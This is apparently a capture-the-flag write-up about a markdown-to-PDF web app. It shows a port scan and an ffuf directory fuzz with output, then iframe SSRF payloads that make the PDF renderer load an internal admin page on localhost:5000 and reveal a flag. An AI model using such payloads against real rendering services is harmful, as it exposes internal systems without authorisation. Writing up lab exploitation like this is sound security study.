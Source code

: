 ﻿---
sticker: lucide//code
---

# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |
| 5000 | RSTP |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![Pasted image 20250617123928.png](../../IMAGES/Pasted%20image%2020250617123928.png)

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a server‘side renderer, whether that's a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.129.226/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![Pasted image 20250617124337.png](../../IMAGES/Pasted%20image%2020250617124337.png)

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![Pasted image 20250617125048.png](../../IMAGES/Pasted%20image%2020250617125048.png)

![Pasted image 20250617125056.png](../../IMAGES/Pasted%20image%2020250617125056.png)

It works, let's read admin resource then:

```js
<iframe 
 src="http://localhost:5000/admin" 
 style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![Pasted image 20250617125137.png](../../IMAGES/Pasted%20image%2020250617125137.png)

![Pasted image 20250617125144.png](../../IMAGES/Pasted%20image%2020250617125144.png)

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![Pasted image 20250617125225.png](../../IMAGES/Pasted%20image%2020250617125225.png)

